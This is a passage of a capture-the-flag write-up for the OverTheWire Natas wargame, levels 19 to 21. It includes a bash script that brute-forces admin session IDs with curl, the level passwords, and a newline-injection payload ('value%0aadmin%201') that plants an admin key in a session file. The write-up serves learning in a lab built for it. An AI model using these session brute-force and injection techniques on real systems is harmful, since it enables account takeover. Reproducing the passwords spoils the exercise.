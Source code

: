 ```bash
#!/bin/bash
url="http://natas19.natas.labs.overthewire.org"
credentials="natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"

for i in {1..640}; do
	response=$(curl -X POST -s -u $credentials -d "username=x&password=y" --cookie "PHPSESSID=$(echo -n "$i" | od -An -tx1 | tr -d ' \n')2d61646d696e" $url);

	if ! echo "$response" | grep -q "regular"; then
		echo "$i$j$k: $response"
	fi
done
```
Explaining this line ```bash (echo -n "$i" | od -An -tx1 | tr -d ' \n') ```:
* ```bash echo -n "$i" ``` - prints the number, `-n` prevents a new line.
* ```bash od -An -tx1 ``` -  dumps the input as hex bytes, `-An` removes the address.
* ```bash tr -d ' \n' ``` - removes spaces and new line.

Brute forcing worked, the right combination was `281-admin`, which is `3238312d61646d696e` encoded. We can see that using `URL encoding` is as safe (or not safe) as using plain text.

Password: `p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`

## Level 20 → 21
We get an input that supposedly changes the user's `name`. Looking inside the source code, we can see some interesting things that might help. First, we can see how `admin` gets his access:
```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
```
It means that if `$_SESSION` has a key named `admin` and it's set to `1`, then admin access is granted. The other 2 methods that are interesting are `myread()` and `mywrite()`, as they are used to handle sessions' data manually by the developers, which is usually a bad idea and an opportunity to find bugs.

`mywrite()` creates a file dedicated to the session and saves the data inside. We can see that `ksort()` is used to sort the session keys, and the writing to the file happens in a loop for each key, which is odd because the only session key we see is `name`. `myread()` checks if a file has been created for that session ID by `mywrite()`, and if it already did, it reads the session keys from it and puts it in `$_SESSION` as a dictionary `key:value`. It is also using a loop to debug each key, although we only have one.

We can see that `mywrite()` adds the keys and values to the file by using a new line for each pair with a space between them (`key value\n`), and it stores the key `name` there, which is our input. So whe can use `Burp` to make a `POST` request, using any random session id we already have, and set the data to be `name=value\nadmin 1`, which is `value%0aadmin%201` in `URL encoding`. This way, `mywrite` will write our input to a file that looks like this:
```
name value
admin 1
```
Then, `myread()` will read it as 2 different keys, and because `$_SESSION` now has an `admin` key set to `1`, admin access is granted along with the password.

